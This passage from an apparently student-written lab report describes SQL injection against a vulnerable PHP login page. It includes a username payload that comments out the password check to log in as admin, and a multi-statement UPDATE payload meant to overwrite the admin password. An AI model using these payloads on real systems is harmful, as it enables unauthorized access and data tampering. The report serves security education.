 \begin{minipage}{\linewidth}
\begin{lstlisting}[caption={Failed SQL injection due to hash},
label={lst:l4_t1p1_failatk},
frame=single]
"SELECT ID,name,locale,lastlogin,gender
FROM user WHERE (name = 'admin' OR email = 'admin')
AND pass = '6db581bfaa81c33a2b9af4355950ae2bfcc18384'"
\end{lstlisting}
\end{minipage}

There is no way to bypass the password hash, so we turn our attention to the username field, which is enclosed by single quotes. Since \emph{magic\_quotes\_gpc} is turned off, we have an opportunity to exploit a different SQL manipulation:

\begin{minipage}{\linewidth}
\begin{lstlisting}[caption={Username injection input},
label={lst:l4_t1p1_usratk},
frame=single]
$user = "admin' ); #"
\end{lstlisting}
\end{minipage}

The input string in  expands into , which essentially tells the database server to just look for the user with name 'admin', and ignore the rest of the query (using the \# character). This grants us access to the admin access to the website.

\begin{minipage}{\linewidth}
\begin{lstlisting}[caption={Username injection expansion},
label={lst:l4_t1p1_usratkres},
frame=single]
"SELECT ID,name,locale,lastlogin,gender
FROM user WHERE (name = 'admin' ); #'
OR email = 'admin' ); #')
AND pass = 'da39a3ee5e6b4b0d3255bfef95601890afd80709'"
\end{lstlisting}
\end{minipage}

\subsubsection{Part 2 - Attempt to overwrite data}
To take this attack further, we try to set the admin password (i.e. overwrite data) using the username field using a multi-statement injection such as .

\begin{minipage}{\linewidth}
\begin{lstlisting}[caption={Overwrite injection attempt},
label={lst:l4_t1p2_owtry},
frame=single]
$user = "admin' ); UPDATE user
SET pass = 'c6dda4f283c9e13682ea3aef2e1732dd80b63cbc'
WHERE name = 'admin'; #"
\end{lstlisting}
\end{minipage}

This fails, because the php script calls \emph{mysql\_query()}, which executes only the first query. However, if the php script had called \emph{mysqli::multi\_query}, then the same attack could work.

\subsection{Task 2 - Injection on UPDATE}

\subsection{Task 3 - Countermeasures}